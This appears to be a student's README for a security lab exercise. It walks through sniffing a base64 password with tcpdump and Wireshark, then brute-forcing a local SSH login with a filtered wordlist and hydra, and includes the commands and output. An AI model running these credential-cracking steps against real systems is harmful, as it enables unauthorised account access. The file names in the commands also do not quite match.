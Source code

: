 # Attack is the best defense
- [x] 0-sniffing

No other traffic was in or out (filtering was need)
run tcpdump [install if not installed]

```console
foo@bar:~$ tcpdump -w dump

```

In a seperate shell run the alx executable [make executable if not already]

```console
foo@bar:~$ ./alx
```

open the dump in wireshark

found a line with pass in it and extract it and used a base64 decoder to get the password

- [x] Dictionary attack
[source dictionary] (https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/xato-net-10-million-passwords.txt)

reduced by using hint given to smaller dictionary


```python
out = open("xato-11char.txt","w")
with open("xato-net-10-million-passwords.txt") as f:
	for line in f.readlines():
		if len(line.strip())==11:
			out.write(line)
out.close()
```

the used that with hydra

```console
foo@bar:~$ hydra -l sylvain -P xato-110char ssh://127.0.0.1 -s 2222
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 236238 login tries (l:1/p:236238), ~14765 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-24 01:17:19
```
